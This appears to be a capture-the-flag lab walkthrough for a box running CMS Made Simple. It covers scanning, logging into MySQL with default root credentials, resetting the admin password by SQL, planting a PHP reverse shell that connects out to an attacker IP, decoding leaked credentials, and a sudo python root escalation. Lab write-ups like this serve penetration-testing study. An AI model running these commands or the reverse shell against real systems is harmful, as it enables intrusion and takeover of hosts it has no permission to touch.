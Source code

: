 # My-CMS Walkthrough

## Target Information

* **Target IP:** `192.168.151.74`
* **Discovered CMS:** CMS Made Simple

---

## 🔍 Initial Reconnaissance

### Nmap Scan

```bash
nmap -v -sC -sV 192.168.151.74
```

### Open Ports and Services

| Port | Service | Version                                  |
| ---- | ------- | ---------------------------------------- |
| 22   | SSH     | OpenSSH 7.9p1 Debian                     |
| 80   | HTTP    | Apache 2.4.38 (CMS Made Simple detected) |
| 3306 | MySQL   | MySQL 8.0.19                             |

---

## 🛠️ Enumeration

### CMS Detected

CMS Made Simple identified via:

```text
_http-generator: CMS Made Simple - Copyright (C) 2004-2020
```

---

## 🐚 Exploiting MySQL

### Access MySQL

```bash
mysql -h 192.168.151.74 -u root -p
# Password: root
```

### Query the Database

```sql
USE database;
SHOW TABLES;

-- Dump CMS users:
SELECT username, email, password FROM cms_users;

-- Reset admin password:
UPDATE cms_users 
SET password = (SELECT MD5(CONCAT(
  IFNULL((SELECT sitepref_value 
           FROM cms_siteprefs 
           WHERE sitepref_name = 'sitemask'),''),
  'hackNos'))) 
WHERE username = 'admin';
```

---

## 📥 Reverse Shell via CMS

1. **Login to CMS** with the updated password.
2. **Navigate to** `User Defined Tags`.
3. **Insert PHP Reverse Shell Code**:

```php
system("bash -c 'bash -i >& /dev/tcp/192.168.45.215/4545 0>&1'");
```

4. **Listener on Attacker Machine**:

```bash
nc -lvnp 4545
```

5. Get a shell and read:

```bash
cat local.txt
```

---

## 🔍 Privilege Escalation Enumeration

### Run LinPEAS

Upload and run:

```bash
./linpeas.sh
```

### Found Hash in `.htpasswd`

Decryption:

```bash
echo "MFZG233VOI5FG2DJMVWGIQBRGIZQ====" | base32 -d
# Output: armour:Shield@123
```

---

## 🔐 Armour User Access

### SSH as Armour

```bash
ssh armour@192.168.151.74
# Password: Shield@123
```

---

## ⬆️ Privilege Escalation

### Check Sudo Permissions

```bash
sudo -l
# Output: (ALL) NOPASSWD: /usr/bin/python
```

### Spawn Root Shell

```bash
sudo python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 🎉 Root Access Achieved

Enjoy your shell! 🎉
